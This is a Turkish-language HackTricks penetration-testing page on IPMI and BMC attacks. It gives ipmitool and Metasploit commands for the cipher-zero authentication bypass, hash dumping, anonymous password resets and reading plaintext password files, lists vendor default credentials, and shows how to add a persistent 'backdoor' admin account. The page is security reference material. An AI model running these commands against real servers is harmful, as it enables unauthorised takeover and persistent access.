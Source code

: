 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

### **IPMI Genel Bakış**

**[Akıllı Platform Yönetim Arayüzü (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**, işletim sisteminden veya güç durumundan bağımsız olarak bilgisayar sistemlerinin uzaktan yönetimi ve izlenmesi için standart bir yaklaşım sunar. Bu teknoloji, sistem yöneticilerinin sistemleri uzaktan yönetmelerine olanak tanır, hatta sistem kapalı veya yanıt vermediğinde bile, ve özellikle şunlar için faydalıdır:

- OS öncesi önyükleme yapılandırmaları
- Güç kapalı yönetimi
- Sistem arızalarından kurtarma

IPMI, sıcaklıkları, voltajları, fan hızlarını ve güç kaynaklarını izleme yeteneğine sahiptir, ayrıca envanter bilgileri sağlama, donanım günlüklerini gözden geçirme ve SNMP aracılığıyla uyarılar gönderme işlevi de vardır. İşlemi için gerekli olanlar bir güç kaynağı ve bir LAN bağlantısıdır.

Intel tarafından 1998'de tanıtıldığından beri, IPMI birçok satıcı tarafından desteklenmektedir ve uzaktan yönetim yeteneklerini artırmaktadır, özellikle 2.0 sürümünün LAN üzerinden seri desteği ile. Ana bileşenler şunlardır:

- **Ana Kart Yönetim Kontrolcüsü (BMC):** IPMI işlemleri için ana mikro denetleyici.
- **İletişim Araçları ve Arayüzleri:** ICMB, IPMB ve yerel ve ağ bağlantıları için çeşitli arayüzler dahil olmak üzere iç ve dış iletişim için.
- **IPMI Belleği:** Günlükleri ve verileri depolamak için.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Varsayılan Port**: 623/UDP/TCP (Genellikle UDP'de çalışır ama TCP'de de çalışıyor olabilir)

## Sayım

### Keşif
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Sürümü **belirleyebilirsiniz**:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Açıkları

IPMI 2.0 alanında, Dan Farmer tarafından önemli bir güvenlik açığı keşfedildi ve bu açık **cipher type 0** aracılığıyla ortaya çıktı. Bu açık, [Dan Farmer'ın araştırmasında](http://fish2.com/ipmi/cipherzero.html) ayrıntılı olarak belgelenmiştir ve geçerli bir kullanıcı hedef alındığında, herhangi bir şifre ile yetkisiz erişim sağlar. Bu zayıflık, HP, Dell ve Supermicro gibi üreticilerin çeşitli BMC'lerinde bulundu ve tüm IPMI 2.0 uygulamalarında yaygın bir sorun olduğunu göstermektedir.

### **Cipher 0 ile IPMI Kimlik Doğrulama Atlatma**

Bu açığı tespit etmek için aşağıdaki Metasploit yardımcı tarayıcısı kullanılabilir:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Bu açığın istismarı `ipmitool` ile mümkündür, aşağıda gösterildiği gibi, kullanıcı şifrelerinin listelenmesi ve değiştirilmesine olanak tanır:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Kimlik Doğrulama Uzak Şifre Hashi Alma**

Bu zafiyet, mevcut herhangi bir kullanıcı adı için tuzlu hashlenmiş şifrelerin (MD5 ve SHA1) alınmasını sağlar. Bu zafiyeti test etmek için Metasploit bir modül sunar:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonim Kimlik Doğrulama**

Birçok BMC'deki varsayılan yapılandırma, boş kullanıcı adı ve şifre dizeleri ile karakterize edilen "anonim" erişime izin verir. Bu yapılandırma, `ipmitool` kullanarak adlandırılmış kullanıcı hesaplarının şifrelerini sıfırlamak için istismar edilebilir:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Düz Metin Parolaları**

IPMI 2.0'daki kritik bir tasarım tercihi, kimlik doğrulama amaçları için BMC'lerde düz metin parolalarının depolanmasını gerektirir. Supermicro'nun bu parolaları `/nv/PSBlock` veya `/nv/PSStore` gibi yerlerde depolaması önemli güvenlik endişeleri doğurmaktadır:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Açığı**

Supermicro'nun IPMI firmware'ında, özellikle UDP port 1900'de bir UPnP SSDP dinleyicisi bulundurması, ciddi bir güvenlik riski oluşturur. [Rapid7'nin ifşasında](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) detaylandırıldığı gibi, UPnP Cihazları için Intel SDK sürüm 1.3.1'deki açıklar, BMC'ye root erişimi sağlar:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP, üretim sırasında varsayılan şifreyi rastgele belirler** ve bu, **Entegre Işık Yönetimi (iLO)** ürünü için geçerlidir. Bu uygulama, **statik varsayılan kimlik bilgileri** kullanma eğiliminde olan diğer üreticilerle tezat oluşturur. Çeşitli ürünler için varsayılan kullanıcı adları ve şifrelerin bir özeti aşağıda verilmiştir:

- **HP Entegre Işık Yönetimi (iLO)**, varsayılan şifre olarak **fabrika tarafından rastgele oluşturulmuş 8 karakterli bir dize** kullanır ve bu, daha yüksek bir güvenlik seviyesini gösterir.
- **Dell'in iDRAC, IBM'in IMM** ve **Fujitsu'nun Entegre Uzaktan Yönetim Kontrolörü** gibi ürünler, sırasıyla "calvin", "PASSW0RD" (sıfır ile) ve "admin" gibi kolay tahmin edilebilir şifreler kullanır.
- Benzer şekilde, **Supermicro IPMI (2.0), Oracle/Sun ILOM** ve **ASUS iKVM BMC** de "ADMIN", "changeme" ve "admin" gibi basit varsayılan kimlik bilgilerini kullanmaktadır.


## Accessing the Host via BMC

Ana Kart Yönetim Kontrolörü (BMC) üzerinden yönetimsel erişim, ana bilgisayarın işletim sistemine erişim için çeşitli yollar açar. Basit bir yaklaşım, BMC'nin Klavye, Video, Fare (KVM) işlevselliğini kullanmaktır. Bu, ana bilgisayarı GRUB üzerinden bir root shell'e yeniden başlatarak (`init=/bin/sh` kullanarak) veya kurtarma diski olarak ayarlanmış sanal bir CD-ROM'dan başlatarak yapılabilir. Bu yöntemler, ana bilgisayarın diskini doğrudan manipüle etmeye, arka kapılar eklemeye, veri çıkarmaya veya güvenlik değerlendirmesi için gerekli herhangi bir eylemi gerçekleştirmeye olanak tanır. Ancak, bu ana bilgisayarı yeniden başlatmayı gerektirir, bu da önemli bir dezavantajdır. Yeniden başlatmadan, çalışan ana bilgisayara erişim daha karmaşık ve ana bilgisayarın yapılandırmasına bağlı olarak değişir. Ana bilgisayarın fiziksel veya seri konsolu oturum açmış durumda kalırsa, BMC'nin KVM veya LAN üzerinden seri (sol) işlevselliği aracılığıyla `ipmitool` kullanılarak kolayca ele geçirilebilir. Paylaşılan donanım kaynaklarının, örneğin i2c veri yolu ve Süper G/Ç yongası gibi, istismarını araştırmak, daha fazla inceleme gerektiren bir alandır.

## Introducing Backdoors into BMC from the Host

BMC ile donatılmış bir ana bilgisayarı tehlikeye attıktan sonra, **yerel BMC arayüzü, arka kapı kullanıcı hesabı eklemek için kullanılabilir** ve bu, sunucuda kalıcı bir varlık oluşturur. Bu saldırı, tehlikeye atılmış ana bilgisayarda **`ipmitool`** bulunmasını ve BMC sürücü desteğinin etkinleştirilmesini gerektirir. Aşağıdaki komutlar, kimlik doğrulama gereksinimini atlayarak ana bilgisayarın yerel arayüzü kullanılarak BMC'ye yeni bir kullanıcı hesabının nasıl enjekte edilebileceğini göstermektedir. Bu teknik, Linux, Windows, BSD ve hatta DOS dahil olmak üzere geniş bir işletim sistemi yelpazesine uygulanabilir.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
